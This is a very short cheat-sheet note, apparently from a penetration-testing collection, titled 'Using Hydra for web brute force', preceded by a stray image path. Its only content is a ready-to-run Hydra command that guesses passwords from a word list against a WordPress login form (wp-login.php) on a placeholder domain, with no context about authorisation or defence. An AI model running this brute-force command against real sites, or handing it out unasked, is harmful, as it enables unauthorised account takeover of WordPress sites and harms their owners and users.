 # Using Hydra for web brute force

## Wordpress login page

```
hydra -l 'user' -P ./pwdlist.lst domain.com -s 80 http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:The Password"
```
